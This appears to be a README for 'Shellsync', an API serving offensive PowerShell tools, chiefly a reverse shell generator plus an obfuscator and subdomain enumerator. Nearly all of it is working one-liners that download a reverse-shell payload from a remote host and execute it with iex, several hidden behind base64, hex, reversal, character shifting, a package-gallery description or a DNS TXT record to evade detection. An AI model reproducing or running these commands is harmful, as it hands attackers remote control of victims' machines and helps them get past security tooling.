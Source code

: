 Shellsync was put together to give Api access to tooling created by Unit 259 

[Demo'd here in David Bomball Video](https://www.youtube.com/watch?v=JFWnMMte3f0)

Tools: 
1. Reverse Shell Generator 
2. Script Obfuscator 
3. Script Minimizer
4. SubDomain Enumerator

# Reverse Shell Generator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/revshell`
```

[WebApp Version](https://powershellforhackers.com/tools/revshell/generator)

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```

### Add Encoding Options with `e` Parameter

| Parameter       | Encoding        |
|-----------------|-----------------|
| b               | Base 64         |
| h               | Hex             |
| u               | Url             |
| a               | Ascii           |
| 0               | Binary          |
| r               | Reverse         |
| x               | Aes Encryption  |
| p               | Padding         |
| s               | Shift {$num}    |
| l               | Shellcode       |


## Parameters are passed individually through a switch statement so you can stack these encoding options

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e={ENCODING}' -Method POST | iex
```

### Base64 Execution 

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method Post))) | clip; gcb | iex
```

### Hex Execution 

```powershell
-join([char[]]((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=h' -Method Post) -split '(..)' | ? { $_ } | % { [convert]::ToInt32($_,16) })) | iex
```

### Reverse Execution 

```powershell
$charArray = (irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=r' -Method Post).ToCharArray();[Array]::Reverse($charArray);-join $charArray | iex
```

### PsGallery Execution

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((find-module example).Description)) -replace '[^\x20-\x7E]' | iex
```

### DNS Txt Record

```powershell
resolve-DnsName rev.website.com -Ty TXT | % { $_.Strings -join "" } | iex
```

### Base64 + Shift 2

```powershell
$en=$(irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method post);$sa=2;-join([char[]]$en|%{if($_-cmatch'[A-Za-z0-9]'){$nc=[int]$_-$sa;if($_-cmatch'[A-Z]'){$nc=(($nc-[int][char]'A'+26)%26)+[int][char]'A'}elseif($_-cmatch'[a-z]'){$nc=(($nc-[int][char]'a'+26)%26)+[int][char]'a'}elseif($_-cmatch'[0-9]'){$nc=(($nc-[int][char]'0'+10)%10)+[int][char]'0'};[char]$nc}else{$_}})|%{[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($_))}|clip;gcb|iex
```

</details>

# PS Script Obfuscator

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/obfuscate`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/obfuscate?u=website.com/file&key={$ApiKey}' -Method POST | iex
```
</details>

# PS Script Minimizer

<details>
  <summary>Click to expand</summary>

```markdown
Endpoint: `/api1/mini`
```

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/mini?u=website.com/file' -Method POST
```
</details>

# Enumerate Subdomains
<details>
  <summary>Click to expand!</summary>

```markdown
Endpoint: `/api1/enumsubdomain`
```

[WebApp Version](https://powershellforhackers.com/tools/subdomain/enumerator)

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/enumsubdomain?u=website.com&key={$ApiKey}' -Method POST
```
</details>








